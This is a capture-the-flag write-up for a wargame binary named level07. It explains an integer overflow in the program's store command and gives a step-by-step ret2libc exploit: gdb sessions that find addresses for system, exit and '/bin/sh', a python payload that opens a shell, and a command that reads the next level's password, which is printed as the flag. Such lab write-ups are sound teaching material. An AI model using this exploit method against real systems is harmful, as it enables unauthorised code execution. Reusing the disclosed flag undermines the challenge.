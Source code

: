 Program behavior:
1. Erases arguments and enviroment variables;
2. Reads from stdin to a buffer (cmd) using `fgets` function;
3. On command "store": stores the number provided at the requested index. All indexes devisible by 3 are reserved;
4. On command "read": prints a number at the provided index;
5. On command "quit": terminates.

Solution:
Use integer overflow to store the payload at reserved index.

# Launch the debugger
gdb level07
# Disassemble main
disassemble main
`0x080488e3 <+448>:   lea    0x24(%esp),%eax`
`0x080488ea <+455>:   call   0x8048630 <store_number>`
# Set a breakpoint at store_number function
break *main + 455
# Start the program
run < <(python -c 'print("store")')
# Calculate the start index
print/d (($ebp + 4) - ($esp + 0x24)) / 4
`$1 = 114`
# Use integer overflow to bypass reversed check
print/u 0x100000000 / 4 + 114
`$2 = 1073741938`
# Get value of system function address
print/u &system
`$3 = 4159090384`
# Get value of exit function address
print/u &exit
`$4 = 4159040368`
# Get value of "/bin/sh" string address
info proc mappings
`0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so`
find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
`0xf7f897ec`
print/u 0xf7f897ec
`$5 = 4160264172`
# Quit the debugger
quit
# Initiate ret2libc attack
(python -c 'print "store\n" + "4159090384\n" + "1073741938\n" + "store\n" + "4159040368\n" + "115\n" + "store\n" + "4160264172\n" + "116\n" +"quit\n"'; cat) | ./level07
# Check the flag
cat /home/users/level08/.pass
`7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC`

